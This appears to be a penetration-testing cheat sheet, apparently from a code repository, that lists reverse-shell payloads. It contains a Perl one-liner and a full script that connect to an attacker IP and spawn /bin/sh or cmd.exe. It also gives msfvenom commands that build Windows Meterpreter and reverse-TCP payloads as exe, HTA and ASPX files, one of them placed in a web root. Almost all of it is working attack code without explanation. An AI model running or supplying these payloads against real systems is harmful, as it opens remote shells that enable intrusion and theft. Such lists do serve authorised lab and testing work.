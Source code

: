 ### Perl

```perl
# One-liner - Windows/Linux - Change shell cmd
perl -e 'use Socket;$i="10.10.14.37";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Full Script - Windows/Linux - change shell mcd
use Socket;
$i="10.10.14.37";
$p=80;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");
open(STDERR,">&S");
exec("cmd.exe");
};
```



### MSFVenom

#### Windows

Windows Meterpreter Payload

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.14.37 LPORT=8000 -f exe -o win_met_revhttp_8000.exe
```

Windows Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.37 LPORT=80 -f exe -o win_revtcp_80.exe
```

Windows 64-bit specific Reverse TCP Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format exe -o winx64revtcp8000.exe
```

Windows HTA file for web servers and VB Script?

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f hta-psh -o /var/www/html/win_revtcp_8000.hta
```

Microsoft IIS ASP Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f asp -o reverse_tcp_8000.aspx
```
